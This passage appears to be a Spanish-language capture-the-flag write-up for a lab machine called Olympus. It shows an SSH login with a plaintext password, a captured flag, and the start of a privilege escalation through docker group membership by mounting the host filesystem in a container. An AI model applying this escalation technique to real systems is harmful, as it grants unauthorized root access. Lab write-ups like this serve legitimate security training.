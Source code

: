 Puedo ver la primera flag

```null
sshpass -p 'St34l_th3_F1re!' ssh prometheus@10.10.10.83

Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$ cat user.txt 
f4ef79147d2a02d0d9c7e976830e4590
```

Veo otra nota

```null
prometheus@olympus:~$ cat msg_of_gods.txt 

Only if you serve well to the gods, you'll be able to enter into the

      _                           
 ___ | | _ _ ._ _ _  ___  _ _  ___
/ . \| || | || ' ' || . \| | |<_-<
\___/|_|`_. ||_|_|_||  _/`___|/__/
        <___'       |_|           
```

Tengo varios grupos asignados

```null
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```

Entre ellos, ```docker```, por lo que me puedo aprovechar de las imágenes existentes para crear un contenedor que monte toda la raíz de la máquina host, abusando de unix socket docker file

```null
prometheus@olympus:/$ find / -name docker.sock 2>/dev/null
/run/docker.sock
```

```null
prometheus@olympus:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        4 years ago         450MB
olympia             latest              2b8904180780        4 years ago         209MB
rodhes              latest              82fbfd61b8c1        4 years ago         215MB
```
